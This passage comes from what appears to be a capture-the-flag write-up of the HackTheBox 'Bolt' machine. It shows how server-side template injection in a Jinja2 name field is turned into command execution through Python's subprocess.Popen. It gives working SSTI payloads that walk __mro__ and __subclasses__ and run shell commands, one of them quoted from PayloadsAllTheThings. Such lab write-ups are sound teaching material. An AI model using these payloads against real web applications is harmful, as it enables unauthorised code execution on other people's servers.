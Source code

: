     
    
    cat classes.txt | tr ',' '\n' | less
    

One interesting class is `<class 'subprocess.Popen'>`. That should allow me to
run commands. I’ll need to know the position of this class in the array, so I
can `grep` with line number (`-n`):

    
    
    oxdf@hacky$ cat classes.txt | tr ',' '\n' | grep -n Popen
    223: <class 'subprocess.Popen'>
    

As `grep` is numbered from one, this is actually 222 when numbered from zero.

To run with subprocess and get the results, I’ll need to call
`subprocess.Popen("[cmd]", stdout=subprocess.PIPE).communicate()`. In this
case, that’ll look like:

    
    
    {{ ''.__class__.__mro__[1].__subclasses__()[222]('id', stdout=?).communicate() }}
    

I show a `?` in there where it’s not clear how to get `subprocess.PIPE`.
PayloadsAllTheThings shows the answer with this example:

    
    
    {{ ''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
    

The [Python
source](https://github.com/python/cpython/blob/f235dd0784b92824565c4a4e72adc70fa3eab68f/Lib/subprocess.py#L259)
also shows `subprocess.PIPE` is -1, so I can just use that value and not need
to reference the object.

I’ll give this payload a try, submitting it as my name:

    
    
    {{ ''.__class__.__mro__[1].__subclasses__()[222]('id', shell=True, stdout=-1).communicate() }}
    

On clicking the confirm link, I get the result:

![image-20210908165349973](https://0xdfimages.gitlab.io/img/image-20210908165349973.png)

[](/2022/02/19/htb-bolt.html)


